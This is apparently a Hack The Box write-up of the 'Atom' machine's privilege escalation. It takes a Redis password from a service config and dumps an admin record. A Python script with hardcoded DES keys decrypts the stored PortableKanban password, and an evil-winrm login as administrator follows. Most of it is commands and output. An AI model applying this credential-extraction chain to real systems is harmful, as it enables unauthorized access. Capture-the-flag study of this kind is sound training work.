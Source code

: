 ### 1. Using winpeas for Enumeration:

![[Pasted image 20210614151853.png]]

![[Pasted image 20210614153253.png]]

![[Pasted image 20210614154038.png]]

![[Pasted image 20210614152953.png]]

![[Pasted image 20210614153602.png]]

### 2.Checking the "C:\Program Files\Redis\redis.windows-service.conf":

```bash
C:\Program Files\Redis>type redis.windows-service.conf                                                                                                        
type redis.windows-service.conf                                                                                                                               
# Redis configuration file example                                                                                                                            
requirepass kidvscat_yes_kidvscat
```

** Found Password - `kidvscat_yes_kidvscat`**

### 3.Connecting to Redis CLI using the above password:

```bash
root@napster:~/Documents/HTB/Atom# redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.10.237:6379> keys *
1) "pk:ids:User"
2) "pk:ids:MetaDataClass"
3) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
4) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
10.10.10.237:6379> get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
10.10.10.237:6379>
```

#### Encrypted Password-`Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi`

### 4. After Googling we came across PortableKanban Encrypted Password Disclosure:

`decrypt.py:`

```bash
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```

```bash
root@napster:~/Documents/HTB/Atom# python3 decrypt.py 
Enter the Hash : Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
Decrypted Password : kidvscat_admin_@123
```

** Password-kidvscat_admin_@123**

### 5.Logging in via Evil-winrm/Root.txt:

```bash
root@napster:~/Documents/HTB/Atom# evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
atom\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         6/14/2021   9:52 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
d39572b62683f507e02b539e2afbde92
```